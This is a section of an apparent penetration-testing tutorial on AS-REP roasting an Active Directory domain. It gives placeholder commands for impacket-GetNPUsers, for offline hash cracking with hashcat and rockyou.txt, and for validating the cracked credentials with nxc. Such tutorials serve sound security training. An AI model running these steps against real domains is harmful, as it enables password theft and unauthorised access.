

# 1.4.2 AsRepRoasting with Impacket

In this step, we perform AsRepRoasting attack using `impacket` tool. Where we use the users.txt file (username list) which we founded in previous enumeration part.

First we add the domain name into our `/etc/hosts` file:

```bash
sudo echo "<DOMAIN-IP> <DOMAIN.NAME>" | sudo tee -a /etc/hosts
```

<figure><figcaption></figcaption></figure>

Next Run the following `impacket` command to request AS-REP hashes from the domain:

```bash
impacket-GetNPUsers -no-pass -usersfile <USERNAME-FILE> <DOMAIN.NAME>
```

<figure><figcaption></figcaption></figure>

Now Save the hash into a file for offline crack:

```bash
echo <'HASH'> > <FILENAME.TXT>
```

## Crack AS-REP Hashes

Once the hashes are collected, the next step is to crack them offline using a wordlist. This allows the attacker to recover the user’s plaintext password.

For cracking the extracted hashes using `hashcat`:

```bash
hashcat <FILENAME.TXT> /usr/share/wordlists/rockyou.txt
```

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

***

## Verify Credentials

After successfully cracking the password, it is important to verify whether the credentials are valid in the domain. This ensures that the attack was successful and the account can be used for further access.

For verifying the username and password:

```bash
nxc ldap <DOMAIN_IP> -u <USER.NAME> -p <PASSWORD>
```

If authentication is successful, it confirms valid domain credentials.

<figure><figcaption></figcaption></figure>
